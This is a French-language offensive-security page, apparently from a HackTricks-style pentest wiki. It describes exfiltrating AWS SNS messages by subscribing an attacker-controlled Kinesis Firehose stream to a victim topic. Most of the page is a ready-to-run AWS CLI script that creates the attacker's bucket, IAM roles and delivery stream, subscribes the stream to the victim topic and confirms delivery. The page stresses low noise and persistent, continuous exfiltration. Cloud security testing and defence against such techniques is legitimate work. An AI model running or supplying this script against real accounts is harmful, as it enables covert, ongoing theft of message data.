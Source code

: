 # AWS - SNS vers Kinesis Firehose Exfiltration (Fanout vers S3)

{{#include ../../../../banners/hacktricks-training.md}}

Abusez le protocole de subscription Firehose pour enregistrer un Kinesis Data Firehose delivery stream contrôlé par un attacker sur un topic SNS standard victim. Une fois la subscription en place et que le rôle IAM requis fait confiance à `sns.amazonaws.com`, chaque notification future est durablement écrite dans le S3 bucket de l'attacker avec un minimum de bruit.

## Exigences
- Permissions dans le compte de l'attacker pour créer un S3 bucket, un Firehose delivery stream, et le rôle IAM utilisé par Firehose (`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy`, etc.).
- La capacité de `sns:Subscribe` au topic victim (et optionnellement `sns:SetSubscriptionAttributes` si l'ARN du rôle de subscription est fourni après la création).
- Une topic policy qui permet au principal attacker de s'abonner (ou l'attacker opère déjà dans le même compte).

## Étapes de l'attaque (exemple dans le même compte)
```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
--delivery-stream-name "$STREAM_NAME" \
--delivery-stream-type DirectPut \
--s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
--region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
--topic-arn "$TOPIC_ARN" \
--protocol firehose \
--notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
--attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
--region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```
## Nettoyage
- Supprimer la subscription SNS, le Firehose delivery stream, les rôles/policies IAM temporaires et le bucket S3 de l'attaquant.

## Impact
**Impact potentiel** : Exfiltration continue et durable de chaque message publié sur le topic SNS ciblé vers un stockage contrôlé par l'attaquant avec une empreinte opérationnelle minimale.

{{#include ../../../../banners/hacktricks-training.md}}
